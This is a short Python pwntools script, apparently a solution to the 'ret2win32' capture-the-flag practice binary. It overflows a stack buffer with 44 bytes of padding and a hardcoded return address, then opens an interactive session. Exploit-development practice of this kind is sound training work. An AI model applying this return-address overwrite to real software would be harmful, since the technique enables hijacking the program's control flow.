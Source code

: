 # ret2win
 script
  
  #!/usr/bin/python3

  from pwn import *

  p = process("./ret2win32")

  junkdata = b"A" * 44
 
  addr = p32(0x08048645)

  payload = junkdata + addr
  
  p.sendline(payload)
  
  p.interactive()
  
